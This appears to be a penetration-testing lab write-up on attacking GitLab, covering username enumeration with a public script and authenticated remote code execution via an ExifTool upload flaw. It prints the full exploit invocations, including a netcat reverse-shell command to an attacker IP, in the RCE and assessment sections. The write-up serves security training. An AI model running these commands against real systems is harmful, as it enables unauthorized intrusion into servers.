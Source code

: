 # Attacking GitLab

## Username Enumeration

we should be mindful of account lockout and other kinds of interruptions. GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.

admin can modify the minimum password length, which could help with users choosing short, common passwords but will not entirely mitigate the risk of password attacks.

{% embed url="https://www.exploit-db.com/exploits/49821" %}
User Enum bash
{% endembed %}

```shell-session
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

## Authenticated Remote Code Execution

GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files.

some companies are still likely using a vulnerable version.

{% embed url="https://www.exploit-db.com/exploits/49951" %}
RCE
{% endembed %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&#x26;1|nc 10.10.14.15 8443 >/tmp/f '
</strong>
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
</code></pre>

```shell-session
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```

## Assessment

Find another valid user on the target GitLab instance.

* Used .sh file to enumerate more than half an hour and got no new usernames
* DEMO

Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.

```
python3 rce.py -t http://gitlab.inlanefreight.local:8081 -u lky -p password -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.5 7890 >/tmp/f '
```

<figure><img src="../../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>



